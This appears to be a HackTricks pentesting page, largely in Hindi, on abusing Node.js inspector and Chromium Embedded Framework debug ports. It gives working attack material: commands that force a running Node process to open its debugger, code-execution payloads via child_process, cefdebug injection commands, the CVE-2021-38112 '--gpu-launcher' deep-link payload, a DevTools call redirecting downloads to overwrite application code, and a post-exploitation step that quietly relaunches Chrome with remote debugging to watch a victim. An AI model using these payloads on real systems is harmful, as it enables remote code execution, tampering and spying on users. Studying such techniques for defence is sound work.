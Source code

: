 # Node inspector/CEF debug abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): जब `--inspect` स्विच के साथ शुरू किया जाता है, तो एक Node.js प्रक्रिया एक डिबगिंग क्लाइंट के लिए सुनती है। **डिफ़ॉल्ट** रूप से, यह होस्ट और पोर्ट **`127.0.0.1:9229`** पर सुनती है। प्रत्येक प्रक्रिया को एक **विशिष्ट** **UUID** भी सौंपा जाता है।

इंस्पेक्टर क्लाइंट को कनेक्ट करने के लिए होस्ट पता, पोर्ट और UUID जानना और निर्दिष्ट करना चाहिए। एक पूर्ण URL कुछ इस तरह दिखेगा `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`।

{% hint style="warning" %}
चूंकि **डिबगर को Node.js निष्पादन वातावरण तक पूर्ण पहुंच है**, एक दुर्भावनापूर्ण अभिनेता जो इस पोर्ट से कनेक्ट करने में सक्षम है, Node.js प्रक्रिया की ओर से मनमाना कोड निष्पादित करने में सक्षम हो सकता है (**संभावित विशेषाधिकार वृद्धि**).
{% endhint %}

इंस्पेक्टर शुरू करने के कई तरीके हैं:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
जब आप एक निरीक्षित प्रक्रिया शुरू करते हैं, तो कुछ ऐसा दिखाई देगा:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
Processes based on **CEF** (**Chromium Embedded Framework**) को **debugger** खोलने के लिए `--remote-debugging-port=9222` पैरामीटर का उपयोग करना आवश्यक है (SSRF सुरक्षा बहुत समान रहती है)। हालाँकि, वे **NodeJS** **debug** सत्र प्रदान करने के बजाय ब्राउज़र के साथ [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) का उपयोग करके संवाद करेंगे, यह ब्राउज़र को नियंत्रित करने के लिए एक इंटरफ़ेस है, लेकिन कोई सीधा RCE नहीं है।

जब आप एक डिबग किए गए ब्राउज़र को शुरू करते हैं, तो कुछ ऐसा दिखाई देगा:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### ब्राउज़र्स, वेबसॉकेट और समान-स्रोत नीति <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

वेबसाइटें एक वेब-ब्राउज़र में वेबसॉकेट और HTTP अनुरोध कर सकती हैं ब्राउज़र सुरक्षा मॉडल के तहत। एक **प्रारंभिक HTTP कनेक्शन** आवश्यक है **एक अद्वितीय डिबगर सत्र आईडी प्राप्त करने के लिए**। **समान-स्रोत नीति** **रोकती है** वेबसाइटों को **इस HTTP कनेक्शन** को बनाने से। [**DNS रीबाइंडिंग हमलों**](https://en.wikipedia.org/wiki/DNS\_rebinding)** के खिलाफ अतिरिक्त सुरक्षा के लिए,** Node.js यह सत्यापित करता है कि कनेक्शन के लिए **'Host' हेडर** या तो एक **IP पता** या **`localhost`** या **`localhost6`** को सटीक रूप से निर्दिष्ट करते हैं।

{% hint style="info" %}
यह **सुरक्षा उपाय निरीक्षक का शोषण करने से रोकता है** कोड चलाने के लिए **बस एक HTTP अनुरोध भेजकर** (जो एक SSRF vuln का शोषण करके किया जा सकता है)।
{% endhint %}

### चल रहे प्रक्रियाओं में निरीक्षक शुरू करना

आप एक चल रहे nodejs प्रक्रिया को **सिग्नल SIGUSR1** भेज सकते हैं ताकि यह **डिफ़ॉल्ट पोर्ट में निरीक्षक शुरू करे**। हालाँकि, ध्यान दें कि आपके पास पर्याप्त विशेषाधिकार होना चाहिए, इसलिए यह आपको **प्रक्रिया के अंदर जानकारी तक विशेषाधिकार प्राप्त करने** की अनुमति दे सकता है लेकिन सीधे विशेषाधिकार वृद्धि नहीं।
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
यह कंटेनरों में उपयोगी है क्योंकि **प्रक्रिया को बंद करना और एक नई प्रक्रिया शुरू करना** `--inspect` के साथ **विकल्प नहीं है** क्योंकि **कंटेनर** को **प्रक्रिया** के साथ **मार दिया जाएगा**।
{% endhint %}

### निरीक्षक/debugger से कनेक्ट करें

**Chromium-आधारित ब्राउज़र** से कनेक्ट करने के लिए, Chrome या Edge के लिए `chrome://inspect` या `edge://inspect` URLs का उपयोग किया जा सकता है। Configure बटन पर क्लिक करके यह सुनिश्चित किया जाना चाहिए कि **लक्ष्य होस्ट और पोर्ट** सही ढंग से सूचीबद्ध हैं। चित्र एक Remote Code Execution (RCE) उदाहरण दिखाता है:

![](<../../.gitbook/assets/image (674).png>)

**कमांड लाइन** का उपयोग करके आप एक debugger/inspector से कनेक्ट कर सकते हैं:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
यह उपकरण [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug) स्थानीय रूप से चल रहे **इंस्पेक्टर्स** को **खोजने** और उनमें **कोड** **इंजेक्ट** करने की अनुमति देता है।
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
ध्यान दें कि **NodeJS RCE हमले काम नहीं करेंगे** यदि [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) के माध्यम से ब्राउज़र से जुड़े हों (आपको इसके साथ करने के लिए दिलचस्प चीजें खोजने के लिए API की जांच करनी होगी)।
{% endhint %}

## NodeJS डिबगर/इंस्पेक्टर में RCE

{% hint style="info" %}
यदि आप यहाँ [**Electron में XSS से RCE प्राप्त करने का तरीका खोजने आए हैं, तो कृपया इस पृष्ठ की जांच करें।**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

जब आप Node **इंस्पेक्टर** से **जुड़ सकते** हैं, तो **RCE** प्राप्त करने के कुछ सामान्य तरीके हैं, जैसे कि (लगता है कि यह **Chrome DevTools प्रोटोकॉल से कनेक्शन में काम नहीं करेगा**):
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

You can check the API here: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
In this section I will just list interesting things I find people have used to exploit this protocol.

### Parameter Injection via Deep Links

In the [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino security ने खोजा कि CEF पर आधारित एक एप्लिकेशन ने सिस्टम में **एक कस्टम UR**I (workspaces://) पंजीकृत किया जो पूर्ण URI प्राप्त करता था और फिर **CEF आधारित एप्लिकेशन** को उस URI से आंशिक रूप से निर्मित कॉन्फ़िगरेशन के साथ लॉन्च करता था।

यह पता चला कि URI पैरामीटर URL डिकोड किए गए थे और CEF बेसिक एप्लिकेशन को लॉन्च करने के लिए उपयोग किए गए थे, जिससे एक उपयोगकर्ता को **`--gpu-launcher`** फ्लैग को **कमांड लाइन** में **इंजेक्ट** करने और मनमाने कार्यों को निष्पादित करने की अनुमति मिली।

So, a payload like:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
Will execute a calc.exe.

### Overwrite Files

**डाउनलोड की गई फ़ाइलों को सहेजने के लिए फ़ोल्डर बदलें** और एक फ़ाइल डाउनलोड करें ताकि आप अपने **दुष्ट कोड** के साथ एप्लिकेशन के अक्सर उपयोग किए जाने वाले **स्रोत कोड** को **ओवरराइट** कर सकें।
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE और exfiltration

इस पोस्ट के अनुसार: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) RCE प्राप्त करना और theriver से आंतरिक पृष्ठों को exfiltrate करना संभव है।

### Post-Exploitation

एक वास्तविक वातावरण में और **एक उपयोगकर्ता PC को समझौता करने के बाद** जो Chrome/Chromium आधारित ब्राउज़र का उपयोग करता है, आप **debugging सक्रियित करके और debugging port को port-forward करके** एक Chrome प्रक्रिया शुरू कर सकते हैं ताकि आप इसे एक्सेस कर सकें। इस तरह आप **विक्टिम द्वारा Chrome के साथ किए गए सभी कार्यों का निरीक्षण कर सकेंगे और संवेदनशील जानकारी चुरा सकेंगे**।

गुप्त तरीके से **हर Chrome प्रक्रिया को समाप्त करना** और फिर कुछ ऐसा कॉल करना जैसे
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## संदर्भ

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
